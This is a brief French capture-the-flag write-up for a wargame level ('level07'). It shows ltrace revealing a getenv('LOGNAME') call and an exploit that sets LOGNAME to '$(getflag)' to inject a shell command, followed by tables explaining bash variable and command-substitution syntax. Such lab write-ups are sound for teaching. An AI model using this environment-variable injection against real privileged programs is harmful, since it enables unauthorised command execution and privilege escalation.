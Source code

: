 
### Commandes réalisées
```bash
./level07
ltrace ./level07
export LOGNAME='$(getflag)'
./level07
```
### The Outputs
```bash
level07
getenv("LOGNAME")
```
### Exploit
```bash
export LOGNAME='$(getflag)'
```
* **`$(...)`** : Cette syntaxe permet d'exécuter une commande shell et d'insérer son **résultat** dans une chaîne de caractères.

| **Aspect**                 | **$variable** | **${variable}**                 |
| -------------------------- | ------------- | ------------------------------- |
| **Usages simples**         | Oui           | Oui                             |
| **Désambiguïsation**       | Non           | Oui                             |
| **Manipulations avancées** | Non           | Oui                             |
| **Noms complexes**         | Non           | Oui (ex. `${variable/old/new}`) |

| **Syntaxe**   | **Usage principal**                                     | **Exemple**                                             |
| ------------- | ------------------------------------------------------- | ------------------------------------------------------- |
| `$variable`   | Référencer une variable                                 | `echo $nom` (affiche la valeur de la variable `nom`)    |
| `${variable}` | Référencer une variable avec des manipulations avancées | `${nom/Alice/Bob}` remplace "Alice" par "Bob"           |
| `$()`         | Évaluer une commande et récupérer son résultat          | `date=$(date)` (stocke la sortie de `date` dans `date`) |
